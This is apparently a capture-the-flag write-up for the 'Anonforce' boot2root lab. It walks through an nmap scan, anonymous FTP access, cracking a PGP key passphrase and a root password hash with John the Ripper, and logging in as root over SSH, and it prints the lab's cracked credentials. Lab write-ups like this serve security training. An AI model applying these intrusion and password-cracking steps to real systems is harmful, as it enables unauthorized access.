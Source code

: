 # Anonforce  

boot2root machine for FIT and bsides guatemala CTF  

# Tasks  
Read user.txt and root.txt  

# nmap
## ip = 10.10.59.93  

## Command 

```sh
nmap -sV -sC -v 10.10.59.93 | tee nmap.txt
```

## Results

```sh
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x 2 0 0
4096 Aug 11 2019 bin
| drwxr-xr-x 3 0 0
4096 Aug 11 2019 boot
| drwxr-xr-x 17 0 0
3700 Feb 08 07:18 dev
| drwxr-xr-x 85 0 0
4096 Aug 13 2019 etc
| drwxr-xr-x 3 0 0
4096 Aug 11 2019 home
| lrwxrwxrwx 1 0 0
33 Aug 11 2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
| lrwxrwxrwx 1 0 0
33 Aug 11 2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
| drwxr-xr-x 19 0 0
4096 Aug 11 2019 lib
| drwxr-xr-x 2 0 0
4096 Aug 11 2019 lib64
| drwx------ 2 0 0
16384 Aug 11 2019 lost+found
| drwxr-xr-x 4 0 0
4096 Aug 11 2019 media
| drwxr-xr-x 2 0 0
4096 Feb 26 2019 mnt
| drwxrwxrwx 2 1000 1000
4096 Aug 11 2019 notread [NSE: writeable]
| drwxr-xr-x 2 0 0
4096 Aug 11 2019 opt
| dr-xr-xr-x 94 0 0
0 Feb 08 07:18 proc
| drwx------ 3 0 0
4096 Aug 11 2019 root
| drwxr-xr-x 18 0 0
540 Feb 08 07:18 run
| drwxr-xr-x 2 0 0
12288 Aug 11 2019 sbin
| drwxr-xr-x 3 0 0
4096 Aug 11 2019 srv
| dr-xr-xr-x 13 0 0
0 Feb 08 07:18 sys
| drwxrwxrwt 9 0 0
4096 Feb 08 07:18 tmp [NSE: writeable]
| drwxr-xr-x 10 0 0
4096 Aug 11 2019 usr
| drwxr-xr-x 11 0 0
4096 Aug 11 2019 var
| lrwxrwxrwx 1 0 0
30 Aug 11 2019 vmlinuz -> boot/vmlinuz-4.4.0-157-generic
|_lrwxrwxrwx 1 0 0
30 Aug 11 2019 vmlinuz.old -> boot/vmlinuz-4.4.0-142-generic
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:10.8.172.59
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
1/9| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 2
| vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 8a:f9:48:3e:11:a1:aa:fc:b7:86:71:d0:2a:f6:24:e7 (RSA)
| 256 73:5d:de:9a:88:6e:64:7a:e1:87:ec:65:ae:11:93:e3 (ECDSA)
|_ 256 56:f9:9f:24:f1:52:fc:16:b7:7b:a3:e2:4f:17:b4:ea (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```
Two ports are open  
- 21 = ftp  
- 22 = ssh  

ftp seems to lack log in credentials so will start with that one.  

# ftp_21

## Command
```sh
ftp anonymous@10.10.59.93
```


Used default credentials = anonymous:anonymous  

Enumelating i got the user flag.  
Read the user flag.  


# ssh_22  

## Details
open port 22 = ssh  
id_rsa key  

Lacking a valid user name.  
Run search sploit to see if the ssh has an exploit.  

  
we got two files from ftp  
- backup.pgp  
- private.asc  

We have an encrypted backup.pgp file, and very likely a private key file that we can use to decrypt it.  
First, what we need to do is import the private key into our keyring (key management database) of the PGP
application.  

## Command 
```sh

gpg --import private.asc
```
We need to crack the passphrase in order to import it into the keyring.  
We can use John the Ripper password-cracking tool for this.  

## Command 
```sh

 gpg2john private.asc > privatehash.txt
```

Now we can run john to crack the hash using the famous rockyou.txt dictionary.  

## Command 
```sh

 john privatehash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Now that we have the passphrase for the private key, we can import it into the keyring and decrypt the backup.pgp file.  

passphrase = xbox360

## Commands 
```sh
gpg --import private.asc

gpg --decrypt backup.pgp
```

We will get a backup of the passwd file, that includes the password hash of root and melodias users.  

Now we crack the passwd file using john.

## Details  
  
- username = root  
- password = hikari  

## Command 
```sh
 ssh root@10.10.59.93
 ```  




# NOW YOU ROOT   
# GO GET THE FLAG!!!